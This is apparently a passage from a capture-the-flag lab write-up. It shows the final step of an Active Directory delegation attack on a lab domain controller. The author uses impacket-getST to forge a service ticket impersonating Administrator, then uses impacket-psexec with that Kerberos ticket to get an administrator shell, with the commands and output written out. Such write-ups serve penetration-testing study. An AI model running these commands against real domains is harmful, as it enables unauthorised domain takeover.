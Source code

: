 ### Proper DA Shell

This machine account fails to be useful to us because we aren't pivoting to another machine in the domain from this one. Instead, we can still use this machine account by simply requesting for the administrator ticket using `impacket-getST` on our Kali machine, which we can then use to get a shell as the administrator.&#x20;

{% hint style="info" %}
This might be possible with PsExec.exe on the domain itself, but I didn't test it out.&#x20;
{% endhint %}

```
$ impacket-getST -spn cifs/resourcedc.resourced.local resourced/attackersystem\$:'Password@123' -impersonate Administrator -dc-ip 192.168.219.175
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] CCache file is not found. Skipping...
[*] Getting TGT for user
[*] Impersonating Administrator
[*]     Requesting S4U2self
[*]     Requesting S4U2Proxy
[*] Saving ticket in Administrator.ccache
```

Then, we can import this ticket into `KRB5CCNAME` and use it to get a shell:

```
$ export KRB5CCNAME=./Administrator.ccache
$ sudo impacket-psexec -k -no-pass resourcedc.resourced.local -dc-ip 192.168.219.175
```

<figure><img src="../../../.gitbook/assets/image (3) (1) (3).png" alt=""><figcaption></figcaption></figure>

Rooted!
